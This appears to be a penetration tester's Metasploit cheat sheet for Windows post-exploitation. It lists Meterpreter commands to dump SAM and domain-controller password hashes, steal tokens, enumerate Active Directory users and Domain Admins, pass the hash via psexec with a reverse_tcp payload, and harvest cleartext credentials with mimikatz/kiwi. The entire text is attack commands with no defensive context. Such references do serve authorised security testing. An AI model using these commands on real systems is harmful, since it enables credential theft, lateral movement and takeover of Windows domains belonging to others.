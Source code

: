# hashdump

## Pull from Registry(SAM and Syskey)
- hashdump 
- run hashdump 
## Pull Disk both DC and SAM 
- run post/windows/gather/smart_hashdump
## Pull from Registry 
- run post/windows/gather/hashdump 

# extapi
- steal_token (to use domain creds)
- load extapi
- adsi_computer_enum <domain>
- adsi_user_enum <domain>
- adsi_nested_group_user_enum <domain> "CN=Domain Admins,CN=Users,DC=<domain>"
- resolve <host>
- nbtstat -A <hostip>




# pass-the-hash
- exploit/windows/smb/psexec
- set payload windows/meterpreter/reverse_tcp
- set smbuser <user>
- set smbpass <hash after group id but not last 3 colons>
- set smbdomain <domain>

# mimikatz/kiwi
- load kiwi
- creds_kerberos
- kiwi_cmd sekurlsa::logonpasswords
- creds_all 
